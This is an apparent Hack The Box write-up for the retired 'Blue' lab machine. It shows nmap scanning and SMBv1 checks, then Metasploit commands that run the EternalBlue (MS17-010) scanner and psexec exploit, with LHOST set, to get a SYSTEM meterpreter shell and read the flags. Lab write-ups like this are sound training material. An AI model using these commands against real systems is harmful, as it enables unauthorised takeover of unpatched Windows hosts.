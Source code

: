 ## **Hack The Box - Blue**

**Creator:** [Ch4p](https://app.hackthebox.com/users/1)

**Difficulty:** Easy

**Link:** [Blue](https://app.hackthebox.com/machines/51)


---


<ins> **Introduction** </ins>

![infocard](/docs/assets/images/HTB/blue/blueinfocard.png)

Blue is an Easy level retired machine on Hack the Box. This machine is running an outdated version of Windows that is vulnerable to [cve-2017-0144](https://nvd.nist.gov/vuln/detail/cve-2017-0144) also known as *Eternal Blue*. This vulnerability affects multiple versions of Windows (specific build numbers for windows 10 and later): Windows Vista, Windows7, Windows Server 2008, Windows 8.1, Windows server 2012, Windows 10, and Windows Server 2016. This was patched in March of 2017 meaning anything still vulnerable to it is pretty out of date. 

In short the *SMBv1* server in Microsoft Windows allows for arbitrary code execution in specifically crafted packets. There is a *Metasploit Frameworks* Auxiliary Module that can scan a system and see if it is vulnerable to Eternal blue. There is also a module to exploit the vulnerability and grant a meterpreter on the unpatched system as the `NT AUTHORITY\SYSTEM` user. Since this is the highest privileged user on any Windows System I will have full access from there.

---


<ins> **Enumeration** </ins>

This is a pretty straightforward machine, still it's good practice to always repeate the first steps so I ran my usual nmap scan to start it off.

`nmap -sV -oA blue_services <target_ip>`

![nmap](/docs/assets/images/HTB/blue/blue01.png)

```
135/tcp msrpc MIcrosofot Windows RPC* 

139/tcp netbios-ssn Microsoft Windows netbios-ssn 

445/tcp Microsoft-ds Microsoft Windows 7 – 10 microsoft –ds (workgroup:WORKGROUP) 

49152/tcp msrpc Microsoft Windows RPC 

49153/tcp msrpc Microsoft Windows RPC 

49154/tcp msrpc Microsoft Windows RPC 

49155/tcp msrpc Microsoft Windows RPC 

49156/tcp msrpc Microsoft Windows RPC 

49157/tcp msrpc Microsoft Windows RPC

Hostname HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows 

```

I used an nmap script scan to further gather some information on that *microsoft-ds* although I can see from my service scan that it is likely running Windows 7-10.

`nmap -p 445 --script smb-protocols <target_ip>`

![nmap script](/docs/assets/images/HTB/blue/blue02.png)

There I can verify that it is indeed running *SMBv1* meaning it's likely vulnerable to *Eternal Blue*.


---


<ins> **Exploitation with Metasploit** </ins>

Using `msfconsole` to bootup *metasploit* on my system I `search` for *eternal blue* and select the `auxiliary/scanner/smb/smb_ms17_010` module for `use`

```
msfconsole

search eternal blue

use auxiliary/scanner/smb/smb_ms17_010

```

![search eternal blue](/docs/assets/images/HTB/blue/blue03.png)

![use scanner](/docs/assets/images/HTB/blue/blue04.png)

Running `show options` I can see that since the *RPORT* was set to *445* by default all I need to edit is the *RHOSTS* option so that it's set to the *target IP* and *exploit*.

```
show options

set RHOSTS <TARGET_IP>

exploit

```

![set rhosts](/docs/assets/images/HTB/blue/blue05.png)

![exploit](/docs/assets/images/HTB/blue/blue06.png)

I'm now going to use the `exploit/windows/smb/ms17_010_psexec` module from earlier.  
 
*PsExec* is a lightweight *telnet-replacement* developed by Microsoft that allows you to execute processes on remote windows systems using any user's credentials and authenticates over *smb*.

```
use exploit/windows/smb/ms17_010_psexec

show options

```
![change module](/docs/assets/images/HTB/blue/blue07.png)

![show options](/docs/assets/images/HTB/blue/blue08.png)

This one is simple as well. I just need to set the *RHOSTS* to my *target IP* and the *LHOST* to my *host ip* and run the *exploit*.

```
set LHOST <host_ip>

set RHOSTS <target_ip>

exploit

```

![set options2](/docs/assets/images/HTB/blue/blue09.png)


After the exploit runs I'm granted a *meterpreter* and give myself a shell to work with. I run `whoami` to verify that I am the *nt authority/system* user.

![whoami root](/docs/assets/images/HTB/blue/blue10.png)

Since I have the highest level privileges on the system as this user it was as easy as looking around the system for the flags and opening the `user.txt` and `root.txt` files n their respective directories using the `type` command. 
  
![flags](/docs/assets/images/HTB/blue/blue11.png)

![pwned](/docs/assets/images/HTB/blue/bluepwned.png)


---


<ins> **Final Thoughts** </ins>

This machine was overly simple with *metasploit* and a very outdated system, however my *eJPT* certification course had an entire module dedicated to *Eternal Blue* so I wanted to try it for myself.

     
